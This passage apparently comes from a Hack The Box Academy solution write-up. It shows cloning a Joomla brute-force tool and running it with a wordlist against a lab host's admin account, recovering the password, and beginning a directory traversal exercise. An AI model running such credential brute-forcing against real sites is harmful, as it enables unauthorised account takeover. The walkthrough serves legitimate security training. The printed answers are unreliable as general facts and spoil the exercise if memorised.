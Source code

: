 ```
┌─[us-academy-1]─[10.10.14.13]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ git clone https://github.com/ajnik/joomla-bruteforce.git

Cloning into 'joomla-bruteforce'...
remote: Enumerating objects: 44, done.
remote: Counting objects: 100% (44/44), done.
remote: Compressing objects: 100% (31/31), done.
remote: Total 44 (delta 20), reused 29 (delta 10), pack-reused 0
Receiving objects: 100% (44/44), 7.63 KiB | 3.82 MiB/s, done.
Resolving deltas: 100% (20/20), done.
```

Then, students need to bruteforce the password of the user `admin` using `joomla-brute.py`:

Code: shell

```shell
python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/wordlists/rockyou.txt -usr admin
```

```
┌─[us-academy-1]─[10.10.14.13]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sudo python3 joomla-bruteforce/joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:turnkey
```

The password of the user `admin` is `turnkey`.

Answer: `turnkey`

# Attacking Joomla

## Question 1

### "Leverage the directory traversal vulnerability to find a flag in the root of the http://dev.inlanefreight.local/ Joomla application"

After spawning the target machine, students need to make sure that the following `VHost` entry is present in `/etc/hosts`:

- `STMIP dev.inlanefreight.local`

Then, students need to navigate to `http://dev.inlanefreight.local/administrator/index.php` and login using the credentials that were shown in the previous section, `admin:admin` (not `admin:turnkey`):

![[HTB Solutions/CPTS/z. images/963cdf43e5f15b0f068a42df235f9c38_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/fdbb7b249f67f68422ee0d5a75b39047_MD5.jpg]]

